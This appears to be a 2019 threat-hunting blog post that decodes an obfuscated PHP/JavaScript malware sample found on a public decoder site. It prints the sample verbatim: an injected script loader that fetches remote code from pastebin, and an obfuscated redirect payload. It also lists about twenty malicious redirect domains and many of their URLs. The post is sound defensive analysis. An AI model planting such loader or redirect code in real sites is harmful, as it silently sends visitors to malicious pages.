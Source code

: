 +++
date = "2019-01-29"
title = "Analysis of Obfuscated PHP Malware"
description = "A partial analysis of some obfuscated PHP."
tags = ["Threat Intelligence", "Threat Hunting", "PHP", "Malware Analysis"]
+++

<i>Updated on February 27, 2019.</i>

I am monitoring the php decoder site [here](https://malwaredecoder.com/) and was alerted when the decoded php [here](https://malwaredecoder.com/result/2333ee92d6f6872f6b5e685a9f4b3ed3) had a `String.fromCharCode` command in it. After decoding the character code (`104, 116, 116, 112, 115, 58, 47, 47, 103, 101, 116, 109, 121, 99, 111, 110, 102, 105, 103, 112, 108, 101, 97, 115, 101, 46, 99, 111, 109, 47, 103, 101, 116, 46, 112, 104, 112`)<!-- <sup>1</sup> -->, this produced `https://getmyconfigplease[.]com/get[.]php`. The content of this site looks like:

```
var sECIQY8TzC = document.createElement('script'); sECIQY8TzC.type = 'text/javascript'; sECIQY8TzC.src = String.fromCharCode(104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 99, 111, 109, 47, 114, 97, 119, 47, 69, 110, 78, 75, 113, 71, 76, 78); document.head.appendChild(sECIQY8TzC);
```

Decoding the `String.fromCharCode` bit<!-- <sup>2</sup> --> produces `https://pastebin.com/raw/EnNKqGLN`.

<!-- <aside class="marginnote">
  <p><span class="noteNumber">1</span> - In biblioteca: <code>fromCharCode([104, 116, 116, 112, 115, 58, 47, 47, 103, 101, 116, 109, 121, 99, 111, 110, 102, 105, 103, 112, 108, 101, 97, 115, 101, 46, 99, 111, 109, 47, 103, 101, 116, 46, 112, 104, 112])</code></p>
  <p><span class="noteNumber">2</span> - In biblioteca: <code>fromCharCode([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 99, 111, 109, 47, 114, 97, 119, 47, 69, 110, 78, 75, 113, 71, 76, 78])</code></p>
</aside> -->

The content of this site is:

```
function _0x16ac9e(){var _0x11da69=['MHgy','MHgz','MHg0','MHg2','aHJlZg==','cmVwbGFjZQ==','bG9jYXRpb24=','aW5kZXhPZg==','Y29va2ll','QmVzdENvb2tpZT10cnVlOyBtYXgtYWdlPTIwNDAw','c2hpZnQ=','MHgw','MHgx'];(function(_0x538417,_0x48f8ea){var _0x350dbc=function(_0x2e576b){while(--_0x2e576b){_0x538417['push'](_0x538417['shift']());}};_0x350dbc(++_0x48f8ea);}(_0x11da69,0xd5));var _0x4097a7=function(_0x506a3d,_0x321114){_0x506a3d=_0x506a3d-0x0;var _0x32b6f7=_0x11da69[_0x506a3d];if(_0x4097a7['cNcBaR']===undefined){(function(){var _0x29eb7d;try{var _0x4e84d1=Function('return\x20(function()\x20'+'{}.constructor(\x22return\x20this\x22)(\x20)'+');');_0x29eb7d=_0x4e84d1();}catch(_0x476c5c){_0x29eb7d=window;}var _0x3b1078='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';_0x29eb7d['atob']||(_0x29eb7d['atob']=function(_0x2199f9){var _0x207876=String(_0x2199f9)['replace'](/=+$/,'');for(var _0x3d686c=0x0,_0x55acec,_0x22a388,_0x5795eb=0x0,_0x5c30ef='';_0x22a388=_0x207876['charAt'](_0x5795eb++);~_0x22a388&&(_0x55acec=_0x3d686c%0x4?_0x55acec*0x40+_0x22a388:_0x22a388,_0x3d686c++%0x4)?_0x5c30ef+=String['fromCharCode'](0xff&_0x55acec>>(-0x2*_0x3d686c&0x6)):0x0){_0x22a388=_0x3b1078['indexOf'](_0x22a388);}return _0x5c30ef;});}());_0x4097a7['qogRBP']=function(_0xd61dcf){var _0x10ae9e=atob(_0xd61dcf);var _0x3a9531=[];for(var _0x3a6320=0x0,_0x8d019b=_0x10ae9e['length'];_0x3a6320<_0x8d019b;_0x3a6320++){_0x3a9531+='%'+('00'+_0x10ae9e['charCodeAt'](_0x3a6320)['toString'](0x10))['slice'](-0x2);}return decodeURIComponent(_0x3a9531);};_0x4097a7['KYlgqs']={};_0x4097a7['cNcBaR']=!![];}var _0x579681=_0x4097a7['KYlgqs'][_0x506a3d];if(_0x579681===undefined){_0x32b6f7=_0x4097a7['qogRBP'](_0x32b6f7);_0x4097a7['KYlgqs'][_0x506a3d]=_0x32b6f7;}else{_0x32b6f7=_0x579681;}return _0x32b6f7;};var _0x2be368=[_0x4097a7('0x0'),_0x4097a7('0x1'),'fromCharCode','BestCookie=true',_0x4097a7('0x2'),_0x4097a7('0x3'),_0x4097a7('0x4')];(function(_0x6e5b15,_0x2c75a3){var _0x42951f=function(_0x1975b5){while(--_0x1975b5){_0x6e5b15['push'](_0x6e5b15[_0x4097a7('0x5')]());}};_0x42951f(++_0x2c75a3);}(_0x2be368,0x1c9));var _0x4755cb=function(_0x5ad1ee,_0x39c6df){_0x5ad1ee=_0x5ad1ee-0x0;var _0x38bd4b=_0x2be368[_0x5ad1ee];return _0x38bd4b;};var _0x443bde=[_0x4755cb(_0x4097a7('0x6')),_0x4755cb(_0x4097a7('0x7')),_0x4755cb(_0x4097a7('0x8')),_0x4755cb(_0x4097a7('0x9')),_0x4755cb(_0x4097a7('0xa')),_0x4755cb('0x5'),_0x4755cb(_0x4097a7('0xb')),_0x4097a7('0xc')];var _0x4efd8b=String[_0x443bde[0x0]](0x68,0x74,0x74,0x70,0x73,0x3a,0x2f,0x2f,0x66,0x6f,0x72,0x6d,0x79,0x6c,0x69,0x74,0x74,0x6c,0x65,0x73,0x69,0x74,0x65,0x2e,0x78,0x79,0x7a,0x2f,0x6c,0x69,0x74,0x74,0x6c,0x65,0x2e,0x70,0x68,0x70);if(document[_0x443bde[0x3]][_0x443bde[0x2]](_0x443bde[0x1])==-0x1){document[_0x443bde[0x3]]=_0x443bde[0x4];window[_0x443bde[0x6]][_0x443bde[0x5]](_0x4efd8b);document[_0x443bde[0x6]][_0x443bde[0x5]](_0x4efd8b);window[_0x443bde[0x6]][_0x443bde[0x7]]=_0x4efd8b;document[_0x443bde[0x6]][_0x443bde[0x7]]=_0x4efd8b;}}_0x16ac9e();
```

### Update (February 27, 2019)

*The content below was added on February 27, 2019.*

Upon further investigation, the code above contains the interesting snippet:

```
(0x68,0x74,0x74,0x70,0x73,0x3a,0x2f,0x2f,0x66,0x6f,0x72,0x6d,0x79,0x6c,0x69,0x74,0x74,0x6c,0x65,0x73,0x69,0x74,0x65,0x2e,0x78,0x79,0x7a,0x2f,0x6c,0x69,0x74,0x74,0x6c,0x65,0x2e,0x70,0x68,0x70)
```

This hex that decodes to:

```
https://formylittlesite.xyz/little.php
```

Visitors to this site will be redirected to a URL on one of the following domains (the full URLs are listed below):

```
appelertte.tk
atlanta-rostov.ru
avtonewsmir.ru
avtoservis5plus.ru
avtowoldsnews.ru
creditforms.site
edu-fddu.info
giner.online
greencool.icu
informzine.site
lentube.host
merkuriu.icu
picturesun.top
rriverrponse.tk
sarriverdoma.tk
school-fix-news.info
storics.info
studentachieve.tk
visnu.icu
www.twero.com
```

Here are the URLs to which I was redirected:

```
http://appelertte.tk/index/?8mMwj2&extra_param_1=261
http://appelertte.tk/index/?8mMwj2&extra_param_1=695
http://atlanta-rostov.ru/2018/12/26/ken-shamrock-vs-kimbo-slice-full-fight/
http://atlanta-rostov.ru/2018/12/27/rhythmbox-vs-banshee/
http://atlanta-rostov.ru/latest.php
http://avtonewsmir.ru/the-best-stock-photos/
http://avtoservis5plus.ru/main-credit-reporting-agencies/
http://avtowoldsnews.ru/forex-trading-for-dummies-2013-pdf/
http://avtowoldsnews.ru/latest.php
http://creditforms.site/average-car-insurance-rates-florida/
http://creditforms.site/latest.php
http://creditforms.site/the-carburetors/
http://edu-fddu.info/blog/latest.php
http://giner.online/can-you-apply-for-more-than-one-credit-card/
http://greencool.icu/blog/?p=502
http://greencool.icu/blog/latest.php
http://informzine.site/2018/12/26/papigfunk/
http://informzine.site/latest.php
http://lentube.host/forex-trading-tutorials/
http://lentube.host/latest.php
http://lentube.host/top-forex-traders-in-the-world-2017/
http://lentube.host/what-is-a-broker-forex-nu3p/
http://merkuriu.icu/blog/?p=446
http://picturesun.top/blog/?p=102
http://picturesun.top/blog/?p=104
http://picturesun.top/blog/?p=125
http://picturesun.top/blog/?p=13
http://picturesun.top/blog/?p=1348
http://picturesun.top/blog/?p=1357
http://picturesun.top/blog/?p=1382
http://picturesun.top/blog/?p=1416
http://picturesun.top/blog/?p=1444
http://picturesun.top/blog/?p=1485
http://picturesun.top/blog/?p=149
http://picturesun.top/blog/?p=1494
http://picturesun.top/blog/?p=1499
http://picturesun.top/blog/?p=1509
http://picturesun.top/blog/?p=1537
http://picturesun.top/blog/?p=1553
http://picturesun.top/blog/?p=156
http://picturesun.top/blog/?p=1566
http://picturesun.top/blog/?p=158
http://picturesun.top/blog/?p=1589
http://picturesun.top/blog/?p=1600
http://picturesun.top/blog/?p=1611
http://picturesun.top/blog/?p=1631
http://picturesun.top/blog/?p=1651
http://picturesun.top/blog/?p=1655
http://picturesun.top/blog/?p=1658
http://picturesun.top/blog/?p=1667
http://picturesun.top/blog/?p=1675
http://picturesun.top/blog/?p=1690
http://picturesun.top/blog/?p=1694
http://picturesun.top/blog/?p=174
http://picturesun.top/blog/?p=178
http://picturesun.top/blog/?p=18
http://picturesun.top/blog/?p=183
http://picturesun.top/blog/?p=209
http://picturesun.top/blog/?p=213
http://picturesun.top/blog/?p=226
http://picturesun.top/blog/?p=242
http://picturesun.top/blog/?p=252
http://picturesun.top/blog/?p=256
http://picturesun.top/blog/?p=268
http://picturesun.top/blog/?p=274
http://picturesun.top/blog/?p=280
http://picturesun.top/blog/?p=306
http://picturesun.top/blog/?p=312
http://picturesun.top/blog/?p=314
http://picturesun.top/blog/?p=334
http://picturesun.top/blog/?p=348
http://picturesun.top/blog/?p=354
http://picturesun.top/blog/?p=374
http://picturesun.top/blog/?p=376
http://picturesun.top/blog/?p=380
http://picturesun.top/blog/?p=382
http://picturesun.top/blog/?p=396
http://picturesun.top/blog/?p=404
http://picturesun.top/blog/?p=418
http://picturesun.top/blog/?p=426
http://picturesun.top/blog/?p=430
http://picturesun.top/blog/?p=448
http://picturesun.top/blog/?p=452
http://picturesun.top/blog/?p=458
http://picturesun.top/blog/?p=470
http://picturesun.top/blog/?p=476
http://picturesun.top/blog/?p=480
http://picturesun.top/blog/?p=484
http://picturesun.top/blog/?p=500
http://picturesun.top/blog/?p=513
http://picturesun.top/blog/?p=517
http://picturesun.top/blog/?p=523
http://picturesun.top/blog/?p=527
http://picturesun.top/blog/?p=529
http://picturesun.top/blog/?p=531
http://picturesun.top/blog/?p=537
http://picturesun.top/blog/?p=541
http://picturesun.top/blog/?p=543
http://picturesun.top/blog/?p=545
http://picturesun.top/blog/?p=551
http://picturesun.top/blog/?p=557
http://picturesun.top/blog/?p=565
http://picturesun.top/blog/?p=567
http://picturesun.top/blog/?p=569
http://picturesun.top/blog/?p=573
http://picturesun.top/blog/?p=575
http://picturesun.top/blog/?p=622
http://picturesun.top/blog/?p=86
http://picturesun.top/blog/?p=92
http://picturesun.top/blog/?p=96
http://picturesun.top/blog/latest.php
http://rriverrponse.tk/index/?8mMwj2&extra_param_1=695
http://sarriverdoma.tk/index/?8mMwj2&extra_param_1=695
http://school-fix-news.info/2019/01/09/car-accident-my-fault-will-my-insurance-go-up/
http://storics.info/2018/12/27/business-credit-cards-for-bad-credit/
http://storics.info/2018/12/27/cheapest-home-equity-line-of-credit/
http://storics.info/2018/12/27/paid-in-full-on-credit-report/
http://storics.info/2018/12/27/wipe-credit-clean/
http://storics.info/latest.php
http://visnu.icu/philadelphia-indemnity-car-insurance/
https://www.twero.com/en/profiles?p=1027797&pi=test1&_=1548965393
```

I intend to more investigation on the registrant information for these domains at some point and will keep you posted!
